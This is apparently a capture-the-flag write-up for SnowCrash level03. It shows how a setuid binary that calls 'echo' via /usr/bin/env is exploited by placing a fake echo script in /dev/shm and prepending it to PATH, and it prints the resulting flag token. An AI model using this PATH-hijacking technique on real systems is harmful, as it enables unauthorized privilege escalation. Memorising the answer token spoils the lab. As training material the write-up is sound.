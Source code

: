 # Level 03

## Vulnerability
Privilege escalation - environment variables

## Context
In our home directory, we find a binary ```level03```

## Solution
```
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
Here we see that when we run this binary, we run it with flag03 permissions (as indicated by the 's' for setuid after  '-rw').
We don't have the permissions to run ```getflag``` directly, but maybe we can use the `./level03` binary to run ```getflag``` for us. 
Let's run the file. 
```
level03@SnowCrash:~$ ./level03
Exploit me
```
We're on the right track. Let's investigate further.
```
level03@SnowCrash:~$ strings level03 | grep "Exploit"
/usr/bin/env echo Exploit me
```
It looks like ./level03 is calling ```echo``` from ```usr/bin/env```. It's calling binary that's defined by the environment.
So maybe the trick is to substitute our own ```echo``` binary, which calls ```getflag``` with ```flag03``` user permissions.

Let's confirm where the getflag is. 
```
level03@SnowCrash:~$ ls -l /bin | grep "getflag"
-rwxr-xr-x 1 root root   11833 Aug 30  2015 getflag
level03@SnowCrash:~$ ../../../bin/getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
As we suspected. Time for some redirection. 
```
level03@SnowCrash:~$ echo "/bin/getflag" > /dev/shm/echo
level03@SnowCrash:~$ chmod +x /dev/shm/echo
level03@SnowCrash:~$ PATH=/dev/shm:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
